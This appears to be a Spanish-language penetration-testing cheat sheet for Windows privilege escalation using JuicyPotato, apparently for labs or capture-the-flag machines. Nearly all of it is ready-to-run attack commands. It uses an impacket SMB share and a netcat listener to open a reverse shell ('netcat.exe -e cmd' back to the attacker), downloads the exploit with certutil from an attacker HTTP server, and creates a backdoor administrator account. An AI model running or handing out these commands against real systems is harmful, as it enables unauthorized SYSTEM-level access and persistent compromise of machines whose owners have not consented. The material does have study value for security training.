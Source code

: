 kali:

```bash
impacket-smbserver smbFolder $(pwd)
```

```bash
nc -lvnp 443
```

windows:

```bash
\\<IP Kali>\smbFolder\juicy.exe -l 1337 -p C:\Windows\Syste32\cmd.exe -a "\\<IP Kali>\smbFolder\netcat.exe -e cmd <IP Kali> <Puerto netcat>" -t *
```


### manera alternativa

Podemos trasnferir el juicypotato.exe a la maquina windows:

kali:

```bash
python -m SimpleHTTPServer
```

windows:

```bash
certutil.exe -f -urlcache -split http://<IP Kali>:8000/juicy.exe JP.exe
```

Y podemos ejecutarlo para crear un usuario como administrador porque el juicypotato ejecuta comandos como administrador: 

```bash
#CREAMOS USUARIO
JP.exe -l 1337 -p "C:\Windows\System32\cmd.exe" -a "/c net user chris chris123! /add" -t *

#LO CONVERTIMOS EN ADMINISTRADOR
JP.exe -l 1337 -p "C:\Windows\System32\cmd.exe" -a "/c net localgroup Administrators chris /add" -t *
```

La contraseña debe cumplir con las politicas de contraseñas de la maquina asi que podemos elegir una dificil.

Muchas veces tenemos que ejecutar esto varias veces porque a la primera no te da. (no siempre)

**NOTA**

con el parametro **-c** si no funciona los comandos anteriores tenemos que especificar el CLSID que es un identificador unico de la version del sistema operativo de la maquina victima. Aqui esta el enlace de los CLSID de las versiones de windows en los que se puede usar el juicypotato:

[CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

**INCOGNITO.EXE**

- [https://labs.mwrinfosecurity.com/assets/BlogFiles/incognito2.zip ](https://labs.mwrinfosecurity.com/assets/BlogFiles/incognito2.zip )
